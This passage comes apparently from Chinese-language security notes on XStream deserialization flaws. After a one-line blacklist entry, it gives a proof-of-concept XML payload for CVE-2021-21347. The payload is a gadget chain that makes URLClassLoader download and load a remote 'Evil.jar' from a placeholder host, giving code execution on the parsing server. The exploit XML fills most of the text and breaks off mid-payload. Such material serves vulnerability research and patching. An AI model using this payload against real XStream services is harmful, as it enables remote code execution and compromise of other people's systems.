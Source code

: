 注意官网poc里面的是标签，估计是jdk版本原因

### [](#黑名单：-3 "黑名单：")黑名单：

```java
sun.swing.SwingLazyValue
```

[](#CVE-2021-21347 "CVE-2021-21347")CVE-2021-21347
--------------------------------------------------

author: threedr3am

### [](#POC-3 "POC")POC

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>Evil</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='java.net.URLClassLoader'>
                  <ucp class='sun.misc.URLClassPath'>
                    <urls serialization='custom'>
                      <unserializable-parents/>
                      <vector>
                        <default>
                          <capacityIncrement>0</capacityIncrement>
                          <elementCount>1</elementCount>
                          <elementData>
                            <url>http://127.0.0.1:80/Evil.jar</url>
                          </elementData>
                        </default>
                      </vector>
                    </urls>
                    <path>
                      <url>http://127.0.0.1:80/Evil.jar</url>
                    </path>
                    <loaders/>
                    <lmap/>
                  </ucp>
                  <package2certs class='concurrent-hash-map'/>
                  <classes/>
                  <defaultDomain>
```